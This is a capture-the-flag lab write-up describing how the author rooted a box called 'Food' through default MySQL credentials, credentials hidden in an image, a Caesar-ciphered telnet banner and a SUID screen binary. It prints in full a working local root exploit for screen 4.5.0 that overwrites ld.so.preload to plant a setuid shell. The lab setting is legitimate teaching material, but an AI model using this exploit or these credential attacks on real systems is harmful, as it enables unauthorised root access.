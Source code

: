 # KOTH

## Food 

Food was the first box that I rooted. This was a pretty fun and easy box.


First things first, a good old nmap scan, I used `nmap -sV [ip] -p-` so i could see the results of everything.


```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3306/tcp  open  mysql   MySQL 5.7.29-0ubuntu0.18.04.1
9999/tcp  open  abyss?
15065/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
16109/tcp open  unknown
46969/tcp open  telnet  Linux telnetd

```

You're given some ports, a http, unknown, and a telnet.


I decided to ignore the http, and go to mysql. Using the old default creds of `root:root`, I ran `mysql -h [ip] -u root -p` and got into the mysql server. 

After using `show databases;`

I changed to the Users database, and decided to run `select * from User;`

This gave me the creds for ramen and also gave me a flag. We love flags :)

<hr>

I wanted to get another user, as ramen was a bit crap in terms of privs. I then went to the second port, and guessed to go to a website with the port(putting http://[ip].16109 into my browser.) This gave me a picture.

Maybe there was some hidden data inside the image, so I ran `binwalk -e [filename]` on the image. I got a gzip, so I went into it and ran `binwalk -e [filename]` again.  This gave me pasta's creds.

I used SSH on pasta, and found some interesting things, that we'll get back to later :p


<hr> 

Finally, the final port, probably the easiest.

After running a quick telnet [IP] 46969, 

I get greeted by tccr:uwjsasqccywsg, which is obviously encrypted with a caesar cipher. Decrypting this, I get food creds. more creds for the collection!


<hr> 

Going back to pasta, I wanted to get a root shell. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md is an amazing resorce for helping to priv esc on linux. 

Using this to help, I ran `find / -uid 0 -perm -4000 -type f 2>/dev/null` to see some of those sweet sweet binaries.


Some of the binaries seemed sus, so I ran some great shellcode from here: https://www.exploit-db.com/exploits/41154

```sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

I ran this, and decided to run a quick whoami to see who I was, and I was root.


Now go out, and blue team!
